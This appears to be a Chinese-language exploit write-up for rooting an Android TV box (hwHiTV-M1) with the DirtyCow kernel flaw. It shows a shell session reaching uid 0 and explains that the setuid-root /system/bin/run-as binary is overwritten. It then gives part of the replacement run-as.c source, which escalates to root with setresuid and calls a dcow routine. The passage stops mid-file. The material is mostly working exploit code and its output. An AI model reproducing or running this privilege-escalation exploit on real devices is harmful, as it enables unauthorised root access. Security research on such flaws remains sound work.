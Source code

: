 ```bash
shell@hwHiTV-M1:/ $ run-as
WARNING: linker: run-as: unused DT entry: type 0x6ffffffe arg 0x9fc
WARNING: linker: run-as: unused DT entry: type 0x6fffffff arg 0x2
uid run-as 2000
uid 0
0 u:r:runas:s0
0
context 0 u:r:shell:s0
shell@hwHiTV-M1:/ # id
uid=0(root) gid=0(root) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats) context=u:r:shell:s0
shell@hwHiTV-M1:/ # ls /data
/system/bin/sh: ls: /data: Permission denied

```

### 原理

就是利用的DirtyCow漏洞的任意写文件，覆盖`/system/bin/`目录下run-as文件，这个文件是root所有且拥有s权限位的，即普通用户运行时，进程权限为root，如果此二进制文件的代码被修改，即可以root用户执行任意代码。

参考：[Android中的run-as命令引出升降权限的安全问题](https://blog.csdn.net/qq_35559358/article/details/79052640)


run-as.c

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#include <dlfcn.h>
#include <fcntl.h>

#ifdef DEBUG
#include <android/log.h>
#define LOGV(...) { __android_log_print(ANDROID_LOG_INFO, "exploit", __VA_ARGS__); printf(__VA_ARGS__); printf("\n"); fflush(stdout); }
#elif PRINT
#define LOGV(...) { __android_log_print(ANDROID_LOG_INFO, "exploit", __VA_ARGS__); printf(__VA_ARGS__); printf("\n"); fflush(stdout); }
#else
#define LOGV(...)
#endif

//reduce binary size
char __aeabi_unwind_cpp_pr0[0];

typedef int getcon_t(char ** con);
typedef int setcon_t(const char* con);

extern int dcow(int argc, const char *argv[]);

int main(int argc, const char **argv)
{
	LOGV("uid %s %d", argv[0], getuid());

	if (setresgid(0, 0, 0) || setresuid(0, 0, 0)) {
		LOGV("setresgid/setresuid failed");
	}

	LOGV("uid %d", getuid());

```